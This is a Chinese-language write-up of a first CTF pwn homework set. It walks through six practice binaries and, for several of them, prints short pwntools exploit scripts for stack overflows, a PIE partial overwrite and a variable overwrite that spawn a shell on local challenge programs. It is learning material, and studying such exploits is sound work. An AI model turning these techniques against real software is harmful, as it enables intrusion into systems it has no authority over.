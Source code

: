 # 第一次课后作业

## shop
checksec一下

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737623646436-03506212-0b46-45b5-b9d5-50896acca48e.png)

64位 开了很多保护

拖进ida分析

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624016635-41b5757a-962e-4deb-9d99-2f31a06147d9.png)

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624099416-5da92c2e-515f-443c-a741-63c447dd53d3.png)

看到提示，是一个整数溢出，那把钱变成负数
（买别的东西如果钱不够的话会提示无法购买，但是选项3会无条件扣款，所以钱低于50时选一个3）

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624503873-2989cab0-358f-4a07-9a07-4fd109df33cb.png)

我这里买了一次1两次2一次3，之后再去1购买shell即可

## ret2text

checksec一下

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624667282-e85985e6-a171-465c-a30a-dc8468d8ffc3.png)

64位，没开栈保护，没开pie保护

拖进ida

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624765128-4a90b6fc-fc26-4b84-aa25-3bced70a4f4d.png)

看到提示，找到非四级单词

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624842771-46c0dc13-58de-46de-a284-b5adb9042f1c.png)

找到后门函数

经典栈溢出，开始编写exp*（64位注意栈对齐TnT）

from pwn import *

io = process("./ret2text")

ret = 0x000000000040101a
address = 0x4014ba
padding = 0x40 + 8

payload = b'a' * padding + p64(ret) + p64(address)
io.sendline(payload)

io.interactive()

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625100599-4a5565db-3b27-4a77-ab0c-0e396708f264.png)
打通本地

## real_login

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625188879-faa8f997-f4cf-4678-92a0-41cdcde10e7f.png)

64位，开了一堆保护

拖进ida

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625273665-07a6f2f1-85f6-4f26-abd0-8df00d812194.png)

在func函数中看到输入password就可以打通，查看password

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625357697-4e0a2df9-2ca1-44b7-b825-1e7486cf23f1.png)

输入，打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625436312-41e4b724-f85e-46e7-a7c1-0082fac17c17.png)

## pie

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625508673-0cc42195-471b-4022-9077-98681720c6dc.png)

开了pie保护，地址是随机的（但是后三位地址不变）

拖进ida，发现存在栈溢出漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625749073-a201b5c7-bc0b-484a-acb2-c361818bff38.png)

找到后门函数以及地址

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626001926-248b7126-4c2a-4745-8b86-27ccf0e80593.png)

编写exp

from pwn import *

io = process("./pie")

padding = 0x20 + 8

payload = b'a'*padding + b'\x6c'

io.sendline(payload)
io.interactive()

打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626164236-990c6e20-7ab3-4172-8730-fada3a2b0156.png)

## buffer_overflow

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626252447-b0c3f562-10fe-4d81-ac98-190c9dc53f5e.png)

64位，开了一堆保护

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626318841-a583bda9-3ed6-4cef-b07b-a678b132777c.png)

只要v5和ans一样就可以获取shell

但是v5无法靠输入修改，所以编写脚本把v5直接覆盖

exp：

from pwn import *

io = process('./buffer_overflow')

payload = b'a'* 0x46 + b'Limiter and Wings are beautiful girls!'
io.send(payload)

io.interactive()

打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626563439-02347b83-21bb-4a45-b413-d433fcb65c9b.png)

## game

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626669413-fa2e4723-d05f-40df-b484-45486e3dae5c.png)

64位，没开栈保护

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626753325-0dc557c0-c402-4dd8-bb57-471deef6c5de.png)

发现v1累加到999就可以获取shell

编写脚本暴力发送直到v1达到999

from pwn import *

io = process("./game")

i = 0
while i <= 999:
    io.sendlineafter(b'pls input you num:', b'9')
    i += 9

io.interactive()

打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626889726-977db26f-d640-4503-aa84-cdf4959f0c67.png)
